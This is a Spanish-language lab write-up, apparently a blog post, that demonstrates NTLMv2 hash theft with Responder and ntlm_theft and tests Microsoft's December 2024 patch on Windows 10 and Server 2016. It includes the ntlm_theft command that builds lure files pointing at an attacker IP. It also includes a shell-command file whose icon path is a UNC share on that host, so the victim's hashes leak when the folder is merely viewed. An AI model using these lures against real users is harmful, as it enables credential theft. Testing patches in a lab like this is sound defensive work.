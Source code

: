 ```yaml
---
title: NTLMv2 Hashes Steal
author: 1
date: 2024-11-03
categories: [Cybersecurity, NTLM]
tags: [Hashes, Responder, Windows]
image: /assets/img/tareas/NTLMv2/NTLM.jpg
---
```


Demostrar de manera práctica el funcionamiento del robo de hashes NTLMv2, mediante el uso de archivos modificados. Además, evaluaremos la efectividad del parche de seguridad lanzado por Microsoft en diciembre de 2024 para mitigar esta vulnerabilidad.

![Figura 1](/assets/img/tareas/NTLMv2/1.png)

## Herramientas Utilizadas

- **Responder**: Permite interceptar y manipular solicitudes de autenticación en redes Windows.
- **ntlm_theft**: Genera archivos modificados que envían credenciales NTLM al atacante.

Uso básico:
```bash
python3 ntlm_theft.py -g modern -s 192.168.1.11 -f Important
```

![Figura 2](/assets/img/tareas/NTLMv2/2.png)

## Archivos Generados

```bash
❯ ls
Important-(externalcell).xlsx  Important-(icon).url
Important-(stylesheet).xml     Important.asx
Important.lnk                  Important.rtf
Important-(frameset).docx      Important-(includepicture).docx
Important-(url).url            Important.htm
Important.m3u                  Important.wax
Important-(fulldocx).xml       Important-(remotetemplate).docx
Important.application          Important.jnlp
Important.pdf
```

## Configuración del Entorno

Compartimos el archivo Excel con la máquina víctima y ejecutamos **Responder** en la máquina atacante.

![Figura 3](/assets/img/tareas/NTLMv2/3.png)

![Figura 4](/assets/img/tareas/NTLMv2/4.png)

![Figura 5](/assets/img/tareas/NTLMv2/5.png)

## Aplicación del Parche

Se aplicó el parche lanzado por Microsoft en diciembre de 2024 para Windows 10.

![Figura 6](/assets/img/tareas/NTLMv2/6.png)

Al probar nuevamente, la vulnerabilidad persiste al abrir el archivo Excel.

![Figura 7](/assets/img/tareas/NTLMv2/7.png)

## Windows Server 2016

En Windows Server 2016 probamos un archivo que no requiere ser abierto para explotar la vulnerabilidad.

```ini
[Shell]
Command=2
IconFile=\\192.168.1.11\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

![Figura 8](/assets/img/tareas/NTLMv2/8.png)

Simplemente al acceder a la ruta del archivo, se capturan los hashes correspondientes.

![Figura 9](/assets/img/tareas/NTLMv2/9.png)

![Figura 10](/assets/img/tareas/NTLMv2/10.png)

## Instalación del Parche

Al intentar instalar manualmente el parche, se detecta que no es aplicable a Windows Server 2016.

![Figura 11](/assets/img/tareas/NTLMv2/11.png)

![Figura 12](/assets/img/tareas/NTLMv2/12.png)

## Conclusión del Laboratorio

Este laboratorio demostró que:

1. En **Windows 10**, incluso tras aplicar el parche, se pueden capturar hashes NTLM abriendo archivos modificados.
2. En **Windows Server 2016**, la vulnerabilidad persiste sin necesidad de abrir el archivo, y los parches de seguridad no son aplicables.

Esto resalta la importancia de evaluar constantemente las mitigaciones en entornos vulnerables.

![Figura 13](/assets/img/tareas/NTLMv2/13.png)

![Figura 14](/assets/img/tareas/NTLMv2/14.png)

![Figura 15](/assets/img/tareas/NTLMv2/15.png)

